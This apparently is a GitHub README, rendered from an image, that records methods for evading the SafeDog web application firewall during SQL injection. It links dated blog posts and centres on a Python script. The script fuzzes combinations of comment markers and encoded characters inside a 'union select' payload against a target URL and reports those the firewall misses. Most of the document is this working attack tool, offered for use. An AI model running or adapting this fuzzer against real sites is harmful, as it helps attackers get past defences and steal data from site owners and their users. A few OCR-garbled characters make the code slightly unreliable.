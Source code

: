 # Bypass_Thinking(Bypass思路)
+ Record bypass and ideas/记录与绕过实例
  
# description(说明):

</br> This is about safe dog bypass:wink::cry::laughing: :yum:

2017/9/03 => [Bypass SafeDog sql Attack(1)](http://www.inksec.cn/)

</br>
2017/9/05 => [Bypass SafeDog sql Attack(2)](http://www.inksec.cn/)
  
</br>
2017/9/06 => [Bypass SafeDog sql Attack(3)](http://www.inksec.cn/)  

## Fuzz_waf Thinking
```
# -*- coding: utf-8 -*-
import requests
fuzz_zs = ['/*','*/','/*!','*','=','`','!','@','%','.','-','+','|', '%00']
fuzz_sz = ['',' ']
fuzz_ch = ["%0a","%0b","%0c","%0d","%0e","%0f","%0g","%0h","%0i","% 0j"]
fuzz = fuzz_zs+fuzz_sz+fuzz_ch
headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.221 Safari/537.3 6 SE 2.X MetaSr 1.0"}
url_start = "http://192.168.1.107/sql.php?id=1"
for a in fuzz:
    for b in fuzz:
        for c in fuzz:
            for d in fuzz:
                exp = "e1/*!50000/*!union"+a+b+c+d+"*/(select%201,2,3)/*--*/*/--%20-"
                url = url_start + exp
                res = requests.get(url = url , headers = headers)
                #print(res.text.find("true"))
                if res.text.find("true")==-1:
                    print("Find Fuzz bypass:"+url)
                    pass

```
